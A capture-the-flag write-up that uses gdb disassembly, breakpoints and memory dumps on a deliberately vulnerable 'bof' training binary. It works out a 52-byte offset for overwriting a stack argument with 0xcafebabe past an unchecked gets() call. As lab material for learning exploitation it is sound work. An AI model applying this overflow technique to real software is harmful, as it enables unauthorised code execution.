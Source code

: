 # bof

1. Run bof under gdb  
```
$ gdb ./bof

```

2. Disassemble main function:
```
(gdb) disas main

Dump of assembler code for function main:
   0x0000068a <+0>:     push   %ebp
   0x0000068b <+1>:     mov    %esp,%ebp
   0x0000068d <+3>:     and    $0xfffffff0,%esp
   0x00000690 <+6>:     sub    $0x10,%esp
   0x00000693 <+9>:     movl   $0xdeadbeef,(%esp)
   0x0000069a <+16>:    call   0x62c <func>
   0x0000069f <+21>:    mov    $0x0,%eax
   0x000006a4 <+26>:    leave
   0x000006a5 <+27>:    ret
End of assembler dump.
```

3. The goal is to search for memory address of the stack pointer (ESP) which contains `key` variable and override it with `0xcafebabe`.
Set a breakpoint at `main + <16>` to see an address stored in `esp`.   
```
(gdb) break *main+16
(gdb) run
(gdb) print $esp
(gdb) x/x $esp
```

4. Now we have to find an adress of `overflowme` buffer from `func` function to know how many bytes need to be read in from the input to overflow `esp` content.

```
(gdb) disas func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   %ebp
   0x5655562d <+1>:     mov    %esp,%ebp
   0x5655562f <+3>:     sub    $0x48,%esp
   0x56555632 <+6>:     mov    %gs:0x14,%eax
   0x56555638 <+12>:    mov    %eax,-0xc(%ebp)
   0x5655563b <+15>:    xor    %eax,%eax
   0x5655563d <+17>:    movl   $0x5655578c,(%esp)
   0x56555644 <+24>:    call   0xf7e38b40 <puts>
   0x56555649 <+29>:    lea    -0x2c(%ebp),%eax
   0x5655564c <+32>:    mov    %eax,(%esp)
   0x5655564f <+35>:    call   0xf7e382b0 <gets>
   0x56555654 <+40>:    cmpl   $0xcafebabe,0x8(%ebp)
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    movl   $0x5655579b,(%esp)
   0x56555664 <+56>:    call   0xf7e0e200 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    movl   $0x565557a3,(%esp)
   0x56555672 <+70>:    call   0xf7e38b40 <puts>
   0x56555677 <+75>:    mov    -0xc(%ebp),%eax
   0x5655567a <+78>:    xor    %gs:0x14,%eax
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7edab60 <__stack_chk_fail>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.
```

5. We can see from the line `0x56555649 <+29>:    lea    -0x2c(%ebp),%eax` that moves start address of `overflowme` buffer `$ebp - 0x2c` into `$eax`
Set a breakpoint at compare instruction and run (assign some F (0x46) into gets):
```
(gdb) break *func+40
(gdb) c
Continuing.
overflow me : 
FFFFFFFFFFFFFFFFFFFFF
```
See the $ebp and the beginning of overflowme buffer:
```
(gdb) x/x $ebp
(gdb) x/20xhw $ebp-0x2c
0xffffceac:     0x46464646      0x46464646      0x46464646      0x46464646
0xffffcebc:     0x46464646      0xf7fa0046      0x00000000      0x56556ff4
0xffffcecc:     0xa7717500      0x00000000      0xf7e015db      0xffffcef8
0xffffcedc:     0x5655569f      0xdeadbeef      0x00000000      0x565556b9
0xffffceec:     0x00000000      0xf7fa9000      0xf7fa9000      0x00000000
```
`0x46464646` are our four `F` chars provided by gets.


6. Now we have to override `0xdeadbeef` from `key` input fuction parameter with `0xcafebabe`  which is stored at `$ebp+0x8`.
Number of bytes to be put into gets function: `0x8 + 0x2c = 8 + 44 = 52` where next bytes should be `0xcafebabe`.


You'll get the flag:  
```
FLAG: {}
```